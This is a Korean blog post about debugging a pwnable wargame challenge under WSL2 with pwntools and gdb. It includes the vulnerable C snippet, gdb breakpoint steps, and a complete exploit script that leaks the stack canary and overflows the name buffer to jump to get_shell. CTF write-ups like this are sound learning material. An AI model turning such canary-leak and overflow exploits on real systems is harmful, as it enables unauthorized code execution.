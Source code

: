 ```yaml
---
layout: post
title:  "Debugging in WSL2"
date:   2020-10-03
categories: ["2020","pwnable","tips"]
update: 2020-10-03
comment: true
tags: [pwnable,tips]
---
```



최근에 `WSL2`를 이용해서 pwnable 문제들을 풀고 있는데 pwnable이 오랜만이라 디버깅할 일이 많다.. 근데 자꾸 디버깅을 빨리빨리 못해서 시간이 끌리는 문제들이 많아서 연습할 겸 정리도 할겸 **Let's go** 😈

> 🚀 많이 배운 짱짱 블로그
>
> [https://cosyp.tistory.com/229](https://cosyp.tistory.com/229)

문제 풀면서 디버깅을 한 과정을 다시 밟아보자.
### 🔍Code

``` c
switch( select[0] ) {
            case 'F':
                printf("box input : ");
                read(0, box, sizeof(box));
                break;
            case 'P':
                printf("Element index : ");
                scanf("%d", &idx);
                print_box(box, idx);
                break;
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
            default:
                break;
        }
```

필요한 부분만 가져왔다.

이 문제의 목표는

- `P`로 canary leak
- `E`로 BOF

이다.

쉬운 문제여서 코드 슥슥 짜서 돌렸는데 자꾸 canary값이 틀려서 `*** stack smashing detected ***`가 뜬다. 😭 그래서 디버깅을 해보기로 했다.

### 👀 Debugging

`canary` leak은 쉬우니까 leak한 후에 `BOF`를 하는 과정을 보자.

![image](https://user-images.githubusercontent.com/51329156/94966609-86a1f300-0538-11eb-94f7-453519661757.png)

gdb로 보면 필요한 값들의 위치를 알 수 있다.

- `name` : `ebp-0x48`
- `name_len` : `ebp-0x90`
- `canary` : `ebp-0x8`

확인해야할 점은 두 가지다.

- `name`에 입력 전 `canary`값
- `name`에 입력 후 `canary`값

이 걸 pwntools를 쓰면서 debugging을 하려면 Linux에서는 `gdb.attach(p)`하면 되는데 `WSL2`에서는 `gdb.attach(p)`가 안 된다.

그래서 코드를 이렇게 짜고:

#### 👓 part of ex.py :

``` python
def overWrite(nameLen,payload):
    p.sendlineafter("> ","E")
    p.recvuntil("Name Size : ")
    p.sendline(str(nameLen))
    p.recvuntil("Name : ")
    p.send(payload)
    pause() # stop here!

payload="A"*0x40
payload+=p32(canary,endian='big')
payload+=p32(0)
payload+=p32(0)
payload+=p32(get_shell)

pause() # stop here!
overWrite(0x80,payload)
```

다른 터미널에서 `gdb attach <pid>`를 해 줘야 한다.

![image](https://user-images.githubusercontent.com/51329156/94967162-848c6400-0539-11eb-92b6-2e5616c1344a.png)

3번 째 줄에 `pid`값이 나와있다. 저 값을 가지고 다른 터미널에서 `gdb attach 3097`을 해주면 저 프로세스에 gdb가 붙는다.

`gdb`가 저 프로세스에 붙는다고 해서,  코드의 실행이 멈추지 않기 때문에 `pause()`를 하지 않으면 코드가 끝까지 실행되서 종료해 버린다. 그래서 `bp`를 걸고 디버깅을 하고 싶어도 `bp`를 걸 수가 없다. 

그래서 디버깅을 하려면 위 코드처럼 `pause()` 혹은 `raw_input()`으로 코드의 실행을 멈춰서 `bp`를 걸 수 있는 시간을 벌어야 한다.

![image](https://user-images.githubusercontent.com/51329156/94966609-86a1f300-0538-11eb-94f7-453519661757.png)

#### 👻 Where to `pause()` and `bp`

**ex.py**를 다시 보면

``` python
def overWrite(nameLen,payload):
    p.sendlineafter("> ","E")
    p.recvuntil("Name Size : ")
    p.sendline(str(nameLen))
    p.recvuntil("Name : ")
    p.send(payload)
    pause() # stop here!

payload="A"*0x40
payload+=p32(canary,endian='big')
payload+=p32(0)
payload+=p32(0)
payload+=p32(get_shell)

pause() # stop here!
overWrite(0x80,payload)
```

1. payload를 보내기 전과 후에 `pause()`가 걸려있다. `gdb`가 프로세스에 붙을 시점에는 payload가 보내지기 전이다. 

2. 위 사진의 어셈블리 코드를 보면 `read()`가 있다. `bp`를 `0x08048864(main+313)`에다가 걸어준다. 

3. 그리고 `c(continue)`를 하면, `gdb` 입장에서는 `read`를 해야 하는데 프로세스가 아직 payload를 보내지 않은 상황이다. 그래서 `pause()`를 풀기 위해 아무 키나 입력해주면 프로세스가 입력을 보내게 되고 `c`가 실행되어서 `read()`한 상황을 디버깅 할 수 있다.

#### 🧰 Fix

**입력 전 `canary` 값**

![image](https://user-images.githubusercontent.com/51329156/94968353-b3a3d500-053b-11eb-8faf-4f7f5c0d5374.png)

**입력 후 덮어 쓴 `canary` 값**

![image](https://user-images.githubusercontent.com/51329156/94968381-bf8f9700-053b-11eb-8cff-7aee0064cf27.png)

endian이 거꾸로 되어서 들어가 있다. endian을 바꿔서 넣어주면 된다.👍

---

### 🔎 ex.py and shell

``` python
from pwn import *
import sys

if len(sys.argv)!=2:
    log.info("try 'python ex.py -l' for local")
    log.info("try 'python ex.py -r' for remote")
    exit(0)

if sys.argv[1]=="-r":
    p = remote('🤐',14195)
elif sys.argv[1]=="-l":
    p = process('🤐')
else:
    log.info("options: -l for local, -r for remote")
    exit(0)

e=ELF('🤐')

get_shell=e.symbols['get_shell']

canary=""

def canaryLeak(idx):
    p.sendlineafter("> ","P")
    p.recvuntil("Element index : ")
    p.sendline(str(idx))
    p.recv(26)
    return p.recv(2)

def overWrite(nameLen,payload):
    p.sendlineafter("> ","E")
    p.recvuntil("Name Size : ")
    p.sendline(str(nameLen))
    p.recvuntil("Name : ")
    p.send(payload)
    
canary+=canaryLeak(128)
canary+=canaryLeak(129)
canary+=canaryLeak(130)
canary+=canaryLeak(131)
canary=int(canary,16)

log.info("CANARY: "+hex(canary))

payload="A"*0x40
payload+=p32(canary,endian='big')
payload+=p32(0)
payload+=p32(0)
payload+=p32(get_shell)

overWrite(0x80,payload)

p.interactive()
```

![image](https://user-images.githubusercontent.com/51329156/94969272-5f99f000-053d-11eb-88b2-33dff002ae54.png)

👏🏻👏🏻👏🏻

❗ 쉬운 문제에 생각보다 시간을 많이 끌렸지만 디버깅 연습은 제대로 된 거 같다. 저번에 친구가 풀으라고 한 pwnable.tw에 `death_note` 풀면서 디버깅을 엄청 많이 했었는데, 이제는 진짜 잘할 수 있을 거 같다!

